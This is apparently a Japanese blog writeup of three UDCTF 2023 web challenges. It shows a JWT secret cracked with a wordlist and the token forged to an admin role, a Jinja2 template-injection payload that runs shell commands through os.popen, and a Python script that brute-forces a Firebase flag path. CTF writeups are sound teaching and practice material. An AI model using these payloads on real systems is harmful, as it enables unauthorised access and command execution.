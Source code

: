 ```yaml
---
title: "UDCTF 2023 Writeup"
date: 2023-10-31T14:00:00+09:00
lastmod: 2023-10-31T14:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fudctf_2023%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://bluehens.ctfd.io/challenges](https://bluehens.ctfd.io/challenges)
<br /><br />

287 points を取り、250位でした。

<img src="https://captureamerica.github.io/writeups/img/udctf_2023_Score.png" alt="udctf_2023_Score.png">

<br><br>
Web チャレンジだけやりました。他はほぼ未着手なので、スクリーンショット撮っていません。

<img src="https://captureamerica.github.io/writeups/img/udctf_2023_chall.png" alt="udctf_2023_chall.png">


<br /><br />
## [Web]: Super Admin (77 points)
- - -
### Challenge
> Comfort food.
<br /><br />
https://bluehens-web-cookies.chals.io/

<br />

### Solution

チャレンジ文が `Comfort food.` しか無いですが、Webチャレンジで食べ物と言ったら Cookie ですね。

ウェブサイトに飛んで User と書かれたボタンを押すと、以下の Cookie が付きます。

<pre>
Set-Cookie: creds=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODQ5MDg2NX0.QRtAAMe3AOv2Rh4UJhXzhw4IA2h8akOh9wy9BvZdA54; Max-Age=900; Path=/; Expires=Sat, 28 Oct 2023 11:16:05 GMT
</pre>

<br />

Base64デコードしたら、JWTなのがわかります。

<pre>
$ echo -n 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
{"alg":"HS256","typ":"JWT"}
</pre>

<br />

jwt_tool.py を使って Secret Key をゲットします。

<pre>
$ python3 jwt_tool.py -C eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODQ5MDg2NX0.QRtAAMe3AOv2Rh4UJhXzhw4IA2h8akOh9wy9BvZdA54 -d /usr/share/wordlists/rockyou.txt
:
[+] password1 is the CORRECT key!
:
</pre>

<br />

https://jwt.io/ で、上記のkeyを使って、userのところをadminに書き換えます。

<br />

FireFoxのdeveloper toolsのstorageのところでcookieの値を書き換えて、profileページに飛ぶとフラグが得られます。

<br />

Flag: `UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}`



<br /><br />
<br /><br />
## [Web]: Just Cat The Flask 1/2 (100 points)
- - -
### Challenge
> https://bluehens-cat-the-flask.chals.io/greeting/hackers
<br /><br />
-ProfNinja and DaveTheDaemonSlayer

（後日みたらURLが変わっているようですが、上記は自分が解いたときのものです。）

<br />

### Solution

https://bluehens-cat-the-flask.chals.io/ にアクセスすると、以下が表示されます。
<pre>
USAGE: /greeting/:name
</pre>

<br />

次に、https://bluehens-cat-the-flask.chals.io/greeting/{{4*4}} にアクセスすると、以下が表示されます。
<pre>
Hi 16!
</pre>

<br />

Jinja2 SSTI ってやつかな。

参考：[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)


<br />
`{{4*4}}` の部分を `{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}` のように変えると、ファイルの一覧が取れます。

<pre>
Welcome total 24 
drwxr-xr-x 1 root root 4096 Oct 28 08:08 . 
drwxr-xr-x 1 root root 4096 Oct 28 07:58 .. 
-rwxr-xr-x 1 root root 658 Oct 28 06:16 chall.py 
-rw-r--r-- 1 root root 46 Oct 28 05:49 flag1.txt 
-rw-r--r-- 1 root root 13 Oct 28 05:51 requirements.txt 
drwxr-xr-x 2 root root 4096 Oct 28 05:51 sum_suckers_creds !
</pre>

<br />

あとは、flag1.txt の中身を見るだけです。

<br />

Flag: `UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}`




<br /><br />
<br /><br />
## [Web]: Best Bathroom on Campus (100 points)
- - -
### Challenge
> <img src="https://captureamerica.github.io/writeups/img/udctf_2023_bestbathroom.png" alt="udctf_2023_bestbathroom.png">
> <br /><br />
> https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json
> <br /><br />
> (Tried 'em all)

<br />

### Solution

チャレンジ文にあるスクリーンショットを見たら、brute forceしたらいいのはわかります。

<br />

ちょっと動作確認をすると、以下のような感じで、`true`か`null`が返るようです。

<pre>
https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{.json
==> trueが返る

https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{A.json
==> nullが返る

https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTFA.json
==> nullが返る
</pre>

<br />

自分のブログを見返して（実際にはローカルでgrepサーチ）、
[BCACTF CTF 2022](https://captureamerica.github.io/writeups/post/bcactf_2022/#web-blatant-sqli-175-points) で書いたコードが使え回せそうだったので、それを編集して使いました。

```python
#!/usr/bin/env python

import requests, string

chars = list(string.printable)
# chars = list(string.ascii_lowercase + string.digits + '!#$&?@{}_')

flag = 'UDCTF{'
url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/'

while True:
    for c in chars:
        if c == '%' or c == ',' or c == ';' or c == '/':
            continue
        temp_flag = flag + c
        temp_url = url + temp_flag + ".json"
        print(temp_url)
        response  = requests.get(temp_url)
        # if 'true' in response.text:
        if response.text == 'true':
            flag = temp_flag
            print(flag)
            if c == '}':
                exit()
            break;
        else:
            pass
```


<br />
なお、テストの結果、`/`が含まれていると true が返って来てしまうようなので新たに除外リストに入れました。


<br />

Flag: `UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

